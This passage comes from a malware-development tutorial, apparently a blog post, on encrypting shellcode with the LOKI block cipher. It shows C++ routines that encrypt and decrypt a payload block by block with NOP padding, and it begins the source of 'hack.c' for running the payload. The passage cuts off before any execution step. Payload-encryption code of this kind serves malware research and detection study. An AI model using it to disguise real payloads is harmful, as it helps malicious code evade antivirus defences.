 For each `8-byte` block, the `loki_encrypt` function is called with the current block and the encryption key. `shellcode + i * BLOCK_SIZE` computes the address of the current `8-byte` block in the shellcode.     

After processing all full `8-byte` blocks, the function checks if there are any remaining bytes that do not form a complete block.     

```cpp
int remaining = shellcode_len % BLOCK_SIZE;
if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
  remaining);
  loki_encrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
  remaining);
}
```

Note that as usually, a padding array pad of `8 bytes` is initialized with `0x90` (`NOP` instruction in `x86` assembly).     

This function ensures that the entire shellcode, regardless of its length, is encrypted using the LOKI algorithm, with proper handling of any partial blocks.     

Then create decrypting logic:    

```cpp
void loki_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    loki_decrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}
```

The final full source code for running payload is looks like this (`hack.c`):    

```cpp
/*
* hack.c
* encrypt/decrypt payload via LOKI
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/16/malware-cryptography-29.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 16
#define BLOCK_SIZE 8
#define KEY_SIZE 8

typedef uint32_t u32;
```